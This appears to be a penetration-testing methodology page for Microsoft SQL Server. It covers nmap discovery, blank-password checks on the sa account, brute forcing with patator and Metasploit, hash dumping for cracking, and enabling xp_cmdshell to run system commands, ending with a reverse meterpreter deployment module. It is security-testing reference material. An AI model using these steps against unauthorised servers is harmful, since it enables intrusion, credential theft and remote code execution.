 # MSSQL - Methodology

### Network scan

Nmap can be used to scan the network for exposed MSSQL databases:

```
nmap -v -p 1433 -sV -sC -oA nmap_smb <RANGE | CIDR>
```

### Service recon

The Nmap *ms-sql-info.nse* script attempts to determine configuration and
version information for Microsoft SQL Server.  
The script will first gather information by querying the SQL Server Browser
service (that runs by default on UDP port 1434 and provides imprecise
version information) and then sending a probe to the instance to conduct
response packet analysis.

```
nmap --script ms-sql-info --script-args mssql.instance-port=1433 -p 1433 <TARGET>
```

The Metasploit mssql_ping module attempts to retrieve similar information:

```
msf > use auxiliary/scanner/mssql/mssql_ping
```

### Empty password

Whenever targeting a large number of MSSQL services, the
nmap nse script *ms-sql-empty-password.nse* can be used to quickly try to
connect using the sa account and a blank password:

```
nmap -v -sT -p 1433 --script=ms-sql-empty-password.nse <HOSTS>
```

### Authentication brute force

The metasploit auxiliary/scanner/mssql/mssql_login module can be used to brute
force credentials for the service. The BLANK_PASSWORDS option is worth setting
to true.  

The patator tool can be used as well to brute force credentials on the service:

```
patator mssql_login host=<IP> user=FILE0 password=FILE1 0=<WORDLIST_USER> 1=<WORDLIST_PASSWORD> -x ignore:fgrep='Login failed for user'

msf > use auxiliary/scanner/mssql/mssql_login
```

### Query the database

The sqsh CLI tool can be used to make queries to the database:

```
sqsh -U <USERNAME> -P <PASSWORD> -S <IP>:<PORT>
```

The **DBeaver** GUI tool can be used to simply access the database content
without knowing the proper MSSQL syntax.

### Dump hashes

If provided with an user credentials of appropriate DB privileges, the nmap
nse script *ms-sql-dump-hashes.nse* can be used to dump the password hashes
from an MS-SQL server in a format suitable for cracking by tools such as
John-the-ripper.

```
nmap -v -sT -p <PORT> --script=ms-sql-dump-hashes.nse --script-args='mssql.username=<USERNAME>,mssql.password=<PASSWORD>' <IP>
```

### OS commands execution

On MSSQL server, operating system commands can be executed using the
*xp_cmdshell* function.  
The *xp_cmdshell* function is deactivated by default from SQL Server 2000 and
upwards and needs to be activated.  
The following query can be used to activate it given the
account used has sufficient privilege (sysadmin):

```SQL
-- To allow advanced options to be changed.  
EXEC sp_configure 'show advanced options', 1;  
go  
-- To update the currently configured value for advanced options.  
RECONFIGURE;  
go  
-- To enable the feature.  
EXEC sp_configure 'xp_cmdshell', 1;  
go
-- To update the currently configured value for this feature.  
RECONFIGURE;  
go  
```

Operating system CMD commands can then be executed:

```SQL
EXEC xp_cmdshell '<CMD>'
go  
```

The Metasploit module *exploit/windows/mssql/mssql_payload* automates the tasks
above to deploy a payload, such as a reverse meterpreter, on the server.
